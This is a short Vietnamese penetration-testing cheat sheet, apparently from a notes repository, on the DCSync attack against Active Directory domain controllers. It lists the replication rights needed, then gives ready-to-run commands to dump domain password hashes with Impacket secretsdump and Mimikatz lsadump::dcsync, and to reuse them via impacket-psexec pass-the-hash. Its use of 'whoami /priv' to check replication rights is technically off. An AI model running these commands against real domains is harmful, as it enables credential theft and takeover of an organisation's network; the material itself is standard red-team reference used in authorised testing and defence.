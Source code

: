 # DCSync

## Điểm chính khai thác

* Lỗ hổng: Giao thức Directory Replication Service (DRS) không kiểm tra xem yêu cầu sao chép có đến từ Domain Controller (DC) đáng tin cậy, chỉ xác minh quyền của SID.
* Tác động: Trích xuất hash mật khẩu (NTDS.dit) của bất kỳ tài khoản nào trong domain.
* Điều kiện khai thác:
  * Tài khoản có quyền:
    * Replicating Directory Changes (GetChanges).
    * Replicating Directory Changes All (GetChangesAll) – cần để lấy hash.
    * Replicating Directory Changes in Filtered Set (GetChangesInFilteredSet) – để lấy thông tin bị ẩn.
  * Theo mặc định, các nhóm Domain Admins, Enterprise Admins, Administrators có quyền này.
  * Kết nối đến DC qua giao thức DRS.

## Kiểm tra lỗ hổng

### Kiểm tra quyền của tài khoản

Xác minh tài khoản có quyền cần thiết (GetChanges, GetChangesAll):

```
whoami /priv
```

### Kiểm tra kết nối đến DC

Xác định Domain Controller (DC) có thể truy cập:

```
nltest /dclist:<domain>
```

## Tấn công từ xa

### Thu thập hash với Impacket

Sử dụng Impacket để giả mạo DC và trích xuất hash từ NTDS.dit:

```
impacket-secretsdump -just-dc-user <target_user> <domain>/<user>:<pass>@<dc_ip>
```

## Tấn công nội bộ

### Thu thập hash với Mimikatz

Sử dụng Mimikatz từ máy trong domain để trích xuất hash:

```
mimikatz "lsadump::dcsync /domain:<domain> /user:<domain>\<target_user>" exit
```

## Kiểm tra kết quả

### Lệnh

Kiểm tra hash đã trích xuất (thực hiện trong quá trình tấn công):

```
impacket-secretsdump -just-dc-user <target_user> <domain>/<user>:<pass>@<dc_ip>
```

### Xác nhận

Sử dụng hash để tiếp tục khai thác (ví dụ: Pass-the-Hash):

```
impacket-psexec <domain>/<target_user>@<dc_ip> -hashes <lm_hash>:<nt_hash>
```